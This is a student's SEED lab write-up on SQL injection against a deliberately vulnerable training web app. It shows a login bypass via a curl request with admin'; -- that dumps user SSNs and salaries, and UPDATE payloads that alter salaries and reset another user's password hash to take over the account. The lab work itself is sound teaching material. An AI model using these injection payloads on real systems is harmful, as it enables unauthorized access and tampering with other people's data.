






# Trabalho realizado na Semana #7

## Task 1

After the database was loaded, we ran a simple query on the `credential` table to match the name Alice.


```bash
mysql> select * from credential where Name = "Alice";
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
| ID | Name  | EID   | Salary | birth | SSN      | PhoneNumber | Address | Email | NickName | Password                                 |
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
|  1 | Alice | 10000 |  20000 | 9/20  | 10211002 |             |         |       |          | fdbe918bdae83000aa54747fc95fe0470fff4976 |
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
1 row in set (0.00 sec)
```

## Task 2

### Task 2.1

To login as admin, we took advantage of the sql statement by commenting out the password verification part.

<p align="center">
    
</p>

This will query the db for users with name admin, thus providing us with the admin page:

<p align="center">
    
</p>

### Task 2.2

For this task, we simply had to convert our query to a url, like this:

```bash
[11/09/22]seed@VM:~$ curl "www.seed-server.com/unsafe_home.php?username=admin%27%3B+--+&Password=11"
<!--
SEED Lab: SQL Injection Education Web plateform
Author: Kailiang Ying
Email: kying@syr.edu
-->

<!--
SEED Lab: SQL Injection Education Web plateform
Enhancement Version 1
Date: 12th April 2018
Developer: Kuber Kohli

Update: Implemented the new bootsrap design. Implemented a new Navbar at the top with two menu options for Home and edit profile, with a button to
logout. The profile details fetched will be displayed using the table class of bootstrap with a dark table head theme.

NOTE: please note that the navbar items should appear only for users and the page with error login message should not have any of these items at
all. Therefore the navbar tag starts before the php tag but it end within the php script adding items as required.
-->

<!DOCTYPE html>
<html lang="en">
<head>
  <!-- Required meta tags -->
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

  <!-- Bootstrap CSS -->
  <link rel="stylesheet" href="css/bootstrap.min.css">
  <link href="css/style_home.css" type="text/css" rel="stylesheet">

  <!-- Browser Tab title -->
  <title>SQLi Lab</title>
</head>
<body>
  <nav class="navbar fixed-top navbar-expand-lg navbar-light" style="background-color: #3EA055;">
    <div class="collapse navbar-collapse" id="navbarTogglerDemo01">
      <a class="navbar-brand" href="unsafe_home.php" ></a>

      <ul class='navbar-nav mr-auto mt-2 mt-lg-0' style='padding-left: 30px;'><li class='nav-item active'><a class='nav-link' href='unsafe_home.php'>Home <span class='sr-only'>(current)</span></a></li><li class='nav-item'><a class='nav-link' href='unsafe_edit_frontend.php'>Edit Profile</a></li></ul><button onclick='logout()' type='button' id='logoffBtn' class='nav-link my-2 my-lg-0'>Logout</button></div></nav><div class='container'><br><h1 class='text-center'><b> User Details </b></h1><hr><br><table class='table table-striped table-bordered'><thead class='thead-dark'><tr><th scope='col'>Username</th><th scope='col'>EId</th><th scope='col'>Salary</th><th scope='col'>Birthday</th><th scope='col'>SSN</th><th scope='col'>Nickname</th><th scope='col'>Email</th><th scope='col'>Address</th><th scope='col'>Ph. Number</th></tr></thead><tbody><tr><th scope='row'> Alice</th><td>10000</td><td>20000</td><td>9/20</td><td>10211002</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Boby</th><td>20000</td><td>30000</td><td>4/20</td><td>10213352</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ryan</th><td>30000</td><td>50000</td><td>4/10</td><td>98993524</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Samy</th><td>40000</td><td>90000</td><td>1/11</td><td>32193525</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ted</th><td>50000</td><td>110000</td><td>11/3</td><td>32111111</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Admin</th><td>99999</td><td>400000</td><td>3/5</td><td>43254314</td><td></td><td></td><td></td><td></td></tr></tbody></table>      <br><br>
      <div class="text-center">
        <p>
          Copyright &copy; SEED LABs
        </p>
      </div>
    </div>
    <script type="text/javascript">
    function logout(){
      location.href = "logoff.php";
    }
    </script>
  </body>
  </html>
```

### Task 2.3
As was expected, we were unable to run two queries. This happens because there's already a countermeasure against SQL Injection in the *unsafe_home.php* file. The function *query* of *mysqli* only allows for one query at a time, explaining why it raises an error when we inject two statements.

```php
$conn = getDB();
      // Sql query to authenticate the user
      $sql = "SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email,nickname,Password
      FROM credential
      WHERE name= '$input_uname' and Password='$hashed_pwd'";
      if (!$result = $conn->query($sql)) {
        echo "</div>";
        echo "</nav>";
        echo "<div class='container text-center'>";
        die('There was an error running the query [' . $conn->error . ']\n');
        echo "</div>";
      }
```

### Task 3.1
We can alter Alice's salary injecting the following line in the first field (for example)

```SQL
' , Salary='20000000
```
The result is the following:

<p align="center">
    
</p>


### Task 3.2

To alter Boby's salary we can inject the following line in one of the fields from Alice's 'edit profile' page.

```SQL
', Salary='2' WHERE Name='Boby';-- 
```

When we access Boby's profile, the result is the following:

<p align="center">
    
</p>

### Task 3.3

In this task we'll try to change Boby's password to '111'. To do that we need to find out what's the value when we encode it using the *sha1( )* function, which is *6216f8a75fd5bb3d5f22b6f9958cdede3fc086c2*

This hashed value is what will be saved in the database.

In Alice's 'edit profile' page, we inject the following line in one of the fields. This will alter Bobby's password to *111*

```SQL
', Password='6216f8a75fd5bb3d5f22b6f9958cdede3fc086c2' WHERE Name='Boby';-- 
```

Then we try to login to Boby's account using the new password.

<p align="center">
    
</p>

And just like we wanted to, we have gained access to Boby's account using a password defined by us.

<p align="center">
    
</p>

